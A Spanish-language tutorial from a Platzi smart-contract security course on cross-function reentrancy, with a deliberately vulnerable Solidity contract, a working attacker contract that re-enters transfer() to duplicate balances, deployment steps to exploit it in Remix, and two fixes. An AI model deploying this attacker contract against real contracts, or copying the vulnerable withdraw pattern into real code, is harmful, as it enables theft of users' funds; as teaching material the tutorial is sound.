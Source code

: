 # Reentrancy cruzado

Contribución creada como parte del [Curso de Introducción a Seguridad de Smart Contracts](https://platzi.com/clases/2721-seguridad-smart-contracts/45717-reentrancy-cruzado/) de **Platzi**. 

---

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones
Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados
Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
    mapping (address => uint) private balances;

    // Función para depositar ETH
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Función para retirar todo el ETH de una cuenta
    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool result, ) = msg.sender.call{value: amount}(""); 
        require(result);
        balances[msg.sender] = 0;
    }

    // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
    function transfer(address to, uint amount) public {
        if (balances[msg.sender] >= amount) {
            balances[to] += amount;
            balances[msg.sender] -= amount;
        }
    }

    // Función para ver el balance de una cuenta
    function getBalance(address addr) public view returns (uint) {
        return balances[addr];
    }

    // Función para ver el balance total del contrato
    function getTotalBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Por su parte, el contrato atacante:
```js
contract Ataque {
    // Dirección del owner de contrato donde se duplicará el balance
    address payable ownerAddr;

    ReentrancyCross public reentrancyCross;

    constructor(address _reentrancyCrossAddress) {
        // Instanciamos el contrato ReentrancyCross
        reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
        ownerAddr = payable(msg.sender);
    }

    // Función que recibe los ETH luego de un retiro
    receive() external payable {
        // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
        reentrancyCross.transfer(ownerAddr, msg.value);
    }

    // Función que ocasiona el llamado a una segunda función luego del retiro
    function attack() external payable {
        require(msg.value >= 1 ether);
        reentrancyCross.deposit{value: 1 ether}();
        reentrancyCross.withdraw();
    }

    // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
    function getTotalBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Procedimiento para vulnerar el contrato
* 1. Desplegar el contrato `ReentrancyCross`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
* 3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
* 4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato atacante duplica el balance en otra cuenta.

### ¿Qué sucedió aquí?
`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?
Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}(""); 
    require(result);
    balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?
Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool result, ) = msg.sender.call{value: amount}(""); 
    require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones
Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.
